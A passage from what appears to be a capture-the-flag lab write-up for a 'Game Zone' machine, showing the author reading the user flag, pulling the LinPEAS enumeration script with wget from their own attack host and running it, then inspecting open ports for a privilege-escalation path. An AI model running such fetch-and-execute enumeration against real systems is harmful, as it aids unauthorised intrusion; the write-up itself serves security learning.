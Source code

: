 We're in. Let's see where we are:

```text
agent47@gamezone:~$ ls
user.txt
```

How convenient, let's grab the user flag before we move on:

```text
agent47@gamezone:~$ cat user.txt 
<HIDDEN>
```

You can now answer the last question on Task 4.

## Task 5

Let's enumerate with [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and see if we can find our escalation path. First grab it from Github and start a python server on Kali so we can get to it from the box. Then switch back to our ssh session and pull LinPEAS across:

```text
agent47@gamezone:~$ wget http://10.14.6.200:8000/linpeas.sh
--2021-02-08 16:26:30--  http://10.14.6.200:8000/linpeas.sh
Connecting to 10.14.6.200:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 320037 (313K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[==================================>] 312.54K  1.19MB/s    in 0.3s    

2021-02-08 16:26:31 (1.19 MB/s) - ‘linpeas.sh’ saved [320037/320037]
```

Now run the script and have a look at the output:

```text
agent47@gamezone:~$ bash linpeas.sh 
 Starting linpeas. Caching Writable Folders...
<SNIP>
```

Looking through the lengthy output we see a couple of interesting things. On the active ports section we have something listening on port 10000:

```text
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -               
tcp        0      0 10.10.201.153:22        10.14.6.200:58046       ESTABLISHED -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 fe80::1:13128           :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               
udp        0      0 0.0.0.0:10000           0.0.0.0:*                           -               
```
